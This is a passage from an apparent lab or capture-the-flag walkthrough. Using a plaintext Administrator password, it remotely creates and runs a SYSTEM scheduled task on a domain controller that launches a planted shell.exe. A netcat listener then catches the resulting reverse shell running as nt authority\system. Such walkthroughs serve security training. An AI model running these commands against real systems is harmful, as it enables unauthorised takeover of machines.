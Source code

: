 Next, we'll spawn a new PowerShell session to install and run our scheduled task using the Administrator user's credentials.

```
c:\windows\system32\inetsrv>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> $pw = ConvertTo-SecureString "T4E@d8!/od@l36" -AsPlainText -Force
$pw = ConvertTo-SecureString "T4E@d8!/od@l36" -AsPlainText -Force
PS C:\windows\system32\inetsrv>

PS C:\windows\system32\inetsrv> $creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
PS C:\windows\system32\inetsrv>

PS C:\windows\system32\inetsrv> Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
SUCCESS: The scheduled task "shell" has successfully been created.
PS C:\windows\system32\inetsrv>

PS C:\windows\system32\inetsrv> Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
SUCCESS: Attempted to run the scheduled task "shell".
PS C:\windows\system32\inetsrv>
```

Once we run the scheduled task (as shown in the final command above), we are presented with a full system shell.

```
kali@kali:~$ nc -lvp 445
listening on [any] 445 ...
192.168.120.108: inverse host lookup failed: Unknown host
connect to [192.168.118.6] from (UNKNOWN) [192.168.120.108] 49731
Microsoft Windows [Version 10.0.17763.1554]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```